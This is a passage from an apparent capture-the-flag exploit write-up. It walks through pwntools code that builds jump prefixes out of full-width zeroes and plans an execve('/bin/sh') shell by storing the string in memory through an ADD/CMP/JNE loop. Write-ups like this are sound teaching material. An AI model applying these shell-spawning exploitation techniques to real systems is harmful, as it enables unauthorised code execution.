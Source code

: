 ```python
        prefix += "\xef\xbc\x90" # Full-width zero
    else:
        pwn.log.error("Jump instruction not found :(")
```

The result is 2 full-width zeroes followed by an ASCII 6:
```
[*] ００6 -> 0x3d713701 -> 0x1
JMP(００6)
```

## Writing the exploit
Now we have all the pieces we need to build a full exploit. As the debuggers going to be super useful, we'll once again forget about the java frontend and develop the exploit purely in the debugging environment. The plan is to perform an `execve("/bin/sh", NULL, NULL)` syscall. We'll also break the work into several stages to make the writeup easier to digest.

### Storing /bin/sh in memory
Firstly, we'll need a `/bin/sh` string at a known location in memory. We can construct our own using the *STR* instruction, which lets us store the value of `eax` (4 bytes) in the writable data segment. The address of the writable data segment is stored in `r12`.

We can use pwntools to convert each 4 byte section of `/bin/sh` into integers.
```python
>>> import pwn
>>> pwn.u32("/bin")
1852400175
>>> pwn.u32("/sh\x00")
6845231
```

Remember that the maximum constant we can specify is 99999, so we can't just do:
```
MOV(A, 1852400175)
STR(A, 0)
```

We'll need to use *ADD* in order to get these values into `eax`. We could of course do this by copy and pasting the *ADD* instruction, but we'd need 18524 of them and we're only allowed to use 800 lines:
```
MOV(A, 99999)
ADD(A, 99999)
...
STR(A, 0)
```

Instead, we'll need to make use of the *CMP* and *JNE* instructions to construct a loop. We're trying to write something like the following pseudo code:
```c
eax = 18699
for (int i = 0; i != 18524; i++) {
    eax += 99999;
}
// eax should equal 1852400175
```
